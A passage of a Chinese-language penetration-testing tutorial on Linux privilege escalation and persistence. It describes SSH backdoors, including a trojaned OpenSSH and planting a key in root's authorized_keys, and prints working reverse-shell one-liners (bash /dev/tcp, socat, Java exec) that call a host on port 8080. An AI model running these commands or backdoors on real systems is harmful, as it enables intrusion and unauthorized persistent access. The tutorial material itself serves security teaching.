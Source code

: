 上述5中利用思路类似，主要分析3点内容：  
1. 脚本或者程序的权限设置或者功能实现是否有问题  
2. 是否依赖了低权限用户可控的关键资源（如可执行脚本、动态库或者关键配置等）  
3. 是否存在对低权限用户可控的文件（可通过符号链接的形式）的读写功能  

如果存在，就可以在脚本或配置中植入提权命令，或者利用读写功能替换关键系统文件实现提权。可以用于 suid 或者 sudo 提权的命令见：[GTFOBins](https://gtfobins.github.io/)  
第6种提权方式的利用需要满足两个条件：一是低权限用户可以向驱动的设备文件发送控制命令或者进行写操作；二是驱动在实现中存在可被利用的漏洞，如 uaf 等。   
测试人员可以利用驱动漏洞在内核层进行漏洞利用，将当前与设备交互的进程权限提升为 root 权限。   
其他内容：[PXN防护技术的研究与绕过\_pxn的目的-CSDN博客](https://blog.csdn.net/hu3167343/article/details/47394707)  
  
## 4.4 持久化  
持久化包括攻击者在用户系统重新启动，更改的凭据以及可能切断其访问权限的情况保持对系统的访问权限的技术。用于持久化的技术包括任何访问、操作或更改配置，使攻击者能够在系统上拥有权限，例如替换或劫持合法代码或添加启动脚本。  
更多内容：[MITRE ATT&CK®](https://attack.mitre.org/)  
  
### 4.4.1 SSH 衍生的各种方法   
1. openssh包替换：  
	事先制作带有后门的 OpenSSH，如增加后门密码，将 openssh 使用时相关的用户名密码等记录到某个特定的文件等，然后再进行替换。  
	参考内容：[OpenSSH后门的安装 | Hone老帅](http://hone.cool/2018/03/22/OpenSSH%E5%90%8E%E9%97%A8%E7%9A%84%E5%AE%89%E8%A3%85/)  
2.  通过 ssh 软连接  
	通过软连接建立一个 ssh 后门  
	内容参考：[ssh 软连接后门使用 – 旧时光笔记](https://www.jozxing.cc/archives/1653)  
3. 利用公钥免密登录  
	攻击者在自己的机器上生成 SSH 相关的公钥（id_rsa.pub）和私钥（id_rsa）。在被攻击的服务器上，将攻击者的公钥内容粘贴到文件 `/root/.ssh/authorized_keys` 里(如果原来存在内容就另起一行粘贴)。  
	然后，直接 SSH 即可登陆被攻击的服务器了。当然，这种攻击很容易被发现。  

### 4.4.2 反弹shell  
#### 4.4.2.1 bash 反弹   
Bash 产生一个交互环境与本地主机主动发起与目标主机8080端口建立的连接（即 TCP 8080 会话连接）相结合，然后再重定向个 TCP 8080会话连接，最后将用户键盘输入与用户标准输出相结合后再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。   
```shell
root# bash -i >& /dev/tcp/192.168.31.41/8080 0>&1  
```  
#### 4.4.2.2 socat 反弹   
Socat 是 Linux 下一个多功能的网络工具，名字来由是“Socket CAT”，因此可以看出它基于 Socket，能够折腾 Socket 相关的无数事情，其功能与 netcat 类似。   
```shell
root# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.31.41:8080  
```  
#### 4.4.2.3 java 脚本反弹   
```java  
r = Runtime.getRuntime()    
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.31.41/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])    
p.waitFor()  
```  
#### 4.4.2.4 msfvenom 反弹   
MSF 框架也为我们提供了生成一句话反弹 Shell 的工具，即 msfvenom   
其他内容：[【技术分享】linux各种一句话反弹shell总结-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/87017)  
